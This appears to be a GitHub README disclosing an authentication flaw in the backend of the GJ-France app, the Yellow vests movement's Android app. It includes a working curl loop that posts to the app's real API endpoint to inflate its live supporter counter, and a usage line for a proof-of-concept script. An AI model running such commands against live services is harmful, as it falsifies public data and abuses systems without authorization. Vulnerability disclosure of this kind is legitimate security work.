 # GJ-FRANCE API vulnerability
The [GJ-France](https://play.google.com/store/apps/details?id=fr.devappfrance.gj_france) app is the "official" Android app of the Yellow vests movement in France.

As per their Google Play description, this app is presenting "the figures"
> Présentation des chiffres 
> A partir du menu "Les Chiffres", l'App présente deux types de chiffres :
> Le nombre de SOUTIENS du mouvement (actualisé en temps réél)
> Le nombre de GJ actifs terrain pour chaque jour

In the app, they called this section "The TRUE figures" aka media are lying we are more than that.

This Cordova app made by an "agency" called [Whelp](http://whelp.fr) has many issues. Their backend is probably one of the worst backend I saw in my life. There is no authentication mechanism, they used POST requests for everything,...

Thanks to this lack of authentication mechanism, you can increment indefinitively the live support counter with the following command:
```console
for i in {1..10}; do curl -X POST https://api.gj-france.fr/soutien; done
```
Oops, the TRUE figures are not really true anymore...

## Demo
[![Demo](http://img.youtube.com/vi/9DlDl7Epmdc/0.jpg)](http://www.youtube.com/watch?v=9DlDl7Epmdc)

## Affected Versions
1.0.8 and below

## How To
```console
# Add 200 new supporter
python poc.py 200
```

## Contact
Follow me on [Twitter](https://twitter.com/fs0c131y)! You can also find a small part of my work at [https://fs0c131y.com](https://fs0c131y.com)

## Credits
Following a tip from [@thibeault_chenu](https://twitter.com/thibeault_chenu), the investigation and the POC has been made with ❤️ by @fs0c131y
